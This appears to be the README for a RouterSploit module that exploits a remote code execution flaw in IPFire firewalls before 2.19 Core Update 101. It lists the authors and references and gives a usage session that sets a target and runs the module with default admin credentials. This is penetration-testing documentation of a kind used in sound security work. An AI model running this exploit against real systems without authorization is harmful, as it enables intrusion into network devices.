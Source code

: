 # IPFire Proxy RCE

## Description
Module exploits IPFire < 2.19 Core Update 101 Remote Code Execution vulnerability which allows executing command on operating system level.

## Authors
* Yann CAM # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://www.exploit-db.com/exploits/39765/](https://www.exploit-db.com/exploits/39765/)
* [http://www.ipfire.org/news/ipfire-2-19-core-update-101-released](http://www.ipfire.org/news/ipfire-2-19-core-update-101-released)

## Vulnerable devices
* IPFire < 2.19 Core Update 101

## Usage
```
rsf > use exploits/ipfire/ipfire_proxy_rce
rsf (IPFire Proxy RCE) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       444                  Target Port


Module options:

   Name         Current settings     Description
   ----         ----------------     -----------
   username     admin                Username to log in with
   password     admin                Password to log in with


rsf (IPFire Proxy RCE) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (IPFire Proxy RCE) > run
[*] Running module...
```
